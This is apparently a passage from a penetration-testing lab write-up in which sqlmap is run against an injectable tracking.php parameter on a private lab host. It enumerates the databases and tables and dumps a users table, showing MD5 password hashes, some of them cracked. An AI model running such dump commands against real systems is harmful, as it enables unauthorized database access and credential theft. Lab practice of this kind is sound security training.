 **Actions:**

* Try sqlmap
* Scan new found directory with Gobuster/Dirbuster
{% endhint %}

{% tabs %}
{% tab title="sqlmap (discover databases)" %}
```bash
sqlmap -u 'http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=6' --dbs
```
{% endtab %}

{% tab title="Output sqlmap dbs" %}
```bash
[06:13:35] [INFO] fetching database names
available databases [2]:
[*] footracking
[*] information_schema
```
{% endtab %}

{% tab title="sqlmap (footracking tables)" %}
```
sqlmap -u 'http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=6' -D footracking --tables
```
{% endtab %}

{% tab title="Output footracking tables" %}
```
Database: footracking
[2 tables]
+----------------+
| telemetry_test |
| users          |
+----------------+
```
{% endtab %}

{% tab title="sqlmap footracking.users dump" %}
```
sqlmap -u 'http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=6' -D footracking -T users --dump
```
{% endtab %}

{% tab title="Output" %}
```
Database: footracking                                                                                                                                                                                   
Table: users
[4 entries]
+----+-----+-------------------------------------------+-----------+
| id | adm | password                                  | username  |
+----+-----+-------------------------------------------+-----------+
| 1  | yes | c5d71f305bb017a66c5fa7fd66535b84          | fcadmin1  |
| 2  | yes | 14d69ee186f8d9bbeddd4da31559ce0f          | fcadmin2  |
| 3  | no  | 827ccb0eea8a706c4c34a16891f84e7b (12345)  | tracking1 |
| 4  | no  | e10adc3949ba59abbe56e057f20f883e (123456) | tracking2 |
+----+-----+-------------------------------------------+-----------+

```
{% endtab %}
{% endtabs %}
